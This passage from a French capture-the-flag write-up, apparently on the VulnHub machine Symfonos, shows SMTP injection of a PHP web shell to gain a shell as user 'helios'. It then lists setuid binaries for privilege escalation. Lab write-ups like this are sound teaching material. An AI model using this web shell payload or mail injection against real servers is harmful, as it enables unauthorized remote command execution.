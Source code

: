 L'idée m'est venue de déclencher la réinitialisation du mot de passe Wordpress et d'aller récupérer le lien pour changer le mot de passe mais le compte semble avoir été enregistré avec une adresse invalide (`helios@blah.com`) par conséquent ce n'est pas possible.

A la place je vais envoyer un mail à `Helios` tout comme j'avais procédé sur le [CTF Underdist #3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Underdist%20%233%20de%20VulnHub.md) :

```bash
$ ncat 192.168.56.112 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.112:25.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
HELO symfonos.localdomain
250 symfonos.localdomain
MAIL FROM: yolo@yolo.tld
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<pre><?php system($_GET["cmd"]); ?></pre>
.
250 2.0.0 Ok: queued as 3689B406AE
QUIT
221 2.0.0 Bye
```

On obtient un shell en tant que `helios`. Apache tourne effectivement avec cet utilisateur :

`helios    2106  7.6  2.7 272524 28296 ?        S    02:39   7:38 /usr/sbin/apache2 -k start`

## Hammer Time

Une énumération des binaires setuid remonte un fichier inhabituel :

```bash
helios@symfonos:~$ find / -type f -perm -u+s -ls 2> /dev/null 
   525788     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   529794     44 -rwsr-xr--   1 root     messagebus    42992 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   403969    432 -rwsr-xr-x   1 root     root         440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
   393297     60 -rwsr-xr-x   1 root     root          59680 May 17  2017 /usr/bin/passwd
   393296     76 -rwsr-xr-x   1 root     root          75792 May 17  2017 /usr/bin/gpasswd
   396158     40 -rwsr-xr-x   1 root     root          40312 May 17  2017 /usr/bin/newgrp
   393294     40 -rwsr-xr-x   1 root     root          40504 May 17  2017 /usr/bin/chsh
   393293     52 -rwsr-xr-x   1 root     root          50040 May 17  2017 /usr/bin/chfn
   131108     12 -rwsr-xr-x   1 root     root           8640 Jun 28  2019 /opt/statuscheck
   655404     44 -rwsr-xr-x   1 root     root          44304 Mar  7  2018 /bin/mount
   655405     32 -rwsr-xr-x   1 root     root          31720 Mar  7  2018 /bin/umount
   655402     40 -rwsr-xr-x   1 root     root          40536 May 17  2017 /bin/su
   655427     60 -rwsr-xr-x   1 root     root          61240 Nov 10  2016 /bin/ping
```
